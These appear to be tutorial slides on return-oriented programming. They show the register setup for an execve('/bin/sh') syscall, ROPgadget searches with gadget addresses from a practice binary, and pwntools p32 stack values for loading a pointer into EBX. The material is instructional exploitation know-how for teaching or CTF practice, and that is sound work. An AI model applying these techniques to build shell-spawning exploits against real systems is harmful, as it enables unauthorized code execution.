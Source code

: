
### How do we replicate this
`execve('/bin/sh', NULL, NULL)`
```
EAX = 0xB # (11)
EBX = address to /bin/sh
ECX = NULL
EDX = NULL
INT 0x80 Syscall
```

---

### Now that's it's ROP
Instead of raw instructions, we'll use gadgets
```
[GADGET_1] # EAX := 0xB # (11)
[GADGET_2] # EBX := address to /bin/sh
[GADGET_3] # ECX := NULL
[GADGET_4] # EDX := NULL
[GADGET_5] # INT 0x80 Syscall
```

---

### How do we find gadgets?
* [Ropper](https://github.com/sashs/Ropper)
* [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)
* [ropr](https://github.com/Ben-Lichtman/ropr)

---

### Finding gadgets
```
> ROPgadget --binary ropme | grep 'pop ebx'
0x0804832d : pop ebx ; ret

> ROPgadget --binary ropme | grep 'xor ecx'
0x080484b5 : xor ecx, ecx ; ret

> ROPgadget --binary ropme | grep 'xor edx'
0x080484b8 : xor edx, edx ; ret

> ROPgadget --binary ropme | grep 'int 0x80'
0x080484bb : mov eax, 0xb ; int 0x80
```

---

### Using strings and values
`pop ebx; ret` grabs the next address on the stack, and stores it in `ebx`
```C
p32(0x08041234) // pop ebx; ret;
p32(0x0804abcd) // address of "/bin/sh"
// now ebx stores a pointer to "/bin/sh"

p32(0x08041234) // pop ebx; ret;
p32(0xA)        // 10
// now ebx == 10
```

---
